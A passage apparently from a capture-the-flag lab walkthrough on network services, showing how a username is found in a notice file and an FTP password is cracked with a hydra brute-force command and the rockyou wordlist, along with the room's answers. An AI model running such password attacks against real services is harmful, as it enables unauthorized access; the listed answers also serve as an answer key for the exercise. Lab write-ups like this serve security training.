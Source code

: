 - What do we think a possible username <br />could be?<br />
```bash
more PUBLIC_NOTICE.txt
```
![Guide image](./screenshots/network-services-16.png)
**=> Answer: `mike`**

### 10. Exploiting FTP
- <p>What is the password for the user "mike"?<br /></p>
```bash
hydra -t 4 -l mike -P /usr/share/wordlists/rockyou.txt -vV <MACHINE_IP> ftp
```
![Guide image](./screenshots/network-services-17.png)
**=> Answer: `password`**
